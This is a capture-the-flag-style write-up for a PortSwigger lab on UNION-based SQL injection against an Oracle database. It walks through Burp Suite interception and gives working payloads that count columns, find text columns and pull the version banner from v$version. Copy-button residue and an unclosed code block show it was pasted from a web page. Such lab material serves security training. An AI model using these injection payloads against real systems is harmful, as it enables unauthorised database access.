 # Lab: SQL injection attack, querying the database type and version on Oracle

**Lab Link:** [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

## Explanation

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION-based SQL injection to extract data from the database.

The goal is to retrieve and display the **Oracle database version string**, which is stored in the system view `v$version`.

---

## Step-by-step Solution

### 🔹 Step 1: Intercept the request

- Use **Burp Suite** to intercept a request to `/filter?category=...` by clicking on any product category in the application.
- Send the request to **Repeater** for testing.

Example intercepted request:

```http
GET /filter?category=Accessories HTTP/1.1
Host: your-lab-id.web-securityacademy.net
🔹 Step 2: Determine number of columns
Send this payload in the category parameter:

sql
Sao chép mã
'+UNION+SELECT+NULL,NULL+FROM+dual--
If the page loads without error → there are 2 columns in the original query.

🔹 Step 3: Identify which column(s) display text
Send a test with sample text:

sql
Sao chép mã
'+UNION+SELECT+'abc','def'+FROM+dual--
If you see abc or def on the page, those columns are capable of displaying text.

🔹 Step 4: Retrieve the Oracle version string
Now send the real payload to extract the Oracle version from the v$version table:

sql
Sao chép mã
'+UNION+SELECT+BANNER,NULL+FROM+v$version--
If successful, you will see output like:

nginx
Sao chép mã
Oracle Database 19c Enterprise Edition Release 19.0.0.0.0 - Production
Once this string is displayed, the lab will be marked as solved.